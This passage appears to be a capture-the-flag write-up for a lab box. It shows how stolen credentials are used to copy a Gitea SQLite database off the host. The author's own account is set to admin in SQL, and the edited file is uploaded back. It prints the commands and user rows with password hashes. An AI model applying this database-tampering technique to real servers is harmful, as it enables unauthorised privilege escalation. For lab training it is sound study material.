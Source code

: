 Secret service found! Kinda git I didn't knew anything about.

![](Pasted%20image%2020240322205519.png)

We try to access to dylan's account by logging in with his credentials:

![](Pasted%20image%2020240322205748.png)

Oops, 2FA. Let's try by another way but let's first create an account for ourselves to have persistence on the database.

![](Pasted%20image%2020240322205857.png)

Now, let's search for the database of gitea. in the `/` directory, we can find `/gitea`, do diving in we find `/gitea/gitea/gitea.db`. Knowing the user and his password, we can download the database and modify it  locally.

```shell
scp dylan@yearofdog.thm:/gitea/gitea/gitea.db ./gitea.db
```

Now, open it by `sqlite3 gitea.db`

```shell
sqlite> select * from user;
1|dylan|Dylan|Dylan Anderson|dylan@yearofthedog.thm|0|enabled|f2fd45caa2f5eae17cb5faa06eb57c4ad05532550fe37ae99e2245429757af09350be12abba616de4e8f0e37d223bd327261|argon2|0|0|0||0|||Rs6zSrVgx0|vkA9FTpZ72|en-US||1599331364|1599511857|1599511857|0|-1|1|1|0|0|0|1|0|8bb88c80301457422026e95699061e4a|dylan@yearofthedog.thm|1|0|0|0|1|0|0|0|0||gitea|0
2|gitblanc|gitblanc||gitblanc@examle.com|0|enabled|16beb5fcaf2019375b4acc627fe24917592018ad54b7fe73b4af696d805c5e1b21f4f3a57767479be6bc6c4084380b3729a8|argon2|0|0|0||0|||svH8TJX3Dc|T8NDXd2qw4|en-US||1711137541|1711137541|1711137541|0|-1|1|0|0|0|0|1|0|5718b3840285f070829ad052bd1d8b7b|gitblanc@examle.com|0|0|0|0|0|0|0|0|0||gitea|0
```

We can see our previously created account, so let's know the user's privileges:

```shell
sqlite> select lower_name, is_admin from user;
dylan|1
gitblanc|0
```

Update our value to 1 to have admin access:

```shell
sqlite> UPDATE user SET is_admin=1 WHERE lower_name="gitblanc";
```

Now, upload this modified database to replace the original one and see the results in the browser:

```shell
scp ./gitea.db dylan@yearofdog.thm:/gitea/gitea/gitea.db
```

Now we can see in the browser by refreshing the page, that we have admin privileges:

![](Pasted%20image%2020240322210947.png)
